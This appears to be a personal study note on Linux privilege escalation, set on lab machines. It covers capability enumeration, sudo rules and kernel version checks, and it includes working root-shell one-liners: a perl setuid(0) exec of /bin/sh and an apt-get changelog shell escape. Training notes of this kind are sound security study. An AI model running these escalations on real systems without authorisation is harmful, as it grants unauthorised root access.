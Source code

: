 >[!info]- Info - What are capabilities?
>Capabilities are extra attributes that can be applied to processes, binaries and services to assign specific privileges normally reserved for administrative operations like traffic capturing or adding kernel modules.

>[!exploit]- Exploit - If a capability is misconfigured it could allow privilege escalation.

>[!code]- List capabilities
>```bash
>joe@debian-privesc:~$ /usr/sbin/getcap -r / 2>/dev/null
>```

>[!success]- The _perl_ binaries stand out
>![Pasted image 20240511063627](Pasted%20image%2020240511063627.png)

>[!code]- Find an exploit
>The [GTFOBins website can help](https://gtfobins.github.io/).
>```bash
>joe@debian-privesc:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
>```
#### Sudo

>[!info]- Info - What is the sudo command?
>The _sudo_ command can be used to execute a command with elevated privileges. To use it, a user must be a member of the sudo group (on Debian based Linux distros).

>[!code]- List the allowed sudo commands
>```bash
>joe@debian-privesc:~$ sudo -l
>```

>[!success] apt-get can be run as sudo

>[!code]- Find an exploit
>The [GTFOBins website](https://gtfobins.github.io/)can help with that.
>```bash
>joe@debian-privesc:~$ sudo apt-get changelog apt
>joe@debian-privesc:~$ !/bin/sh
>```

#### Kernel Vulnerabilities

>[!warning]- Limitation - This may require also matching the OS system flavour
>Success in exploiting a kernel vulnerability may depend on matching not only the target's kernel version, but also the operating system flavour (eg Debian, RHEL, Gentoo, etc).

>[!code]- Enumerate target machine information
>The **/etc/issue** file contains a message or system identification to be printed before the login prompt:
>```bash
>joe@ubuntu-privesc:~$ cat /etc/issue
>Ubuntu 16.04.4 LTS \n \l
>```
>
>---
>
>Inspect kernel version and system architecture:
>```bash
>joe@ubuntu-privesc:~$ uname -r
>4.4.0-116-generic
>
>joe@ubuntu-privesc:~$ arch
>x86_64
>```
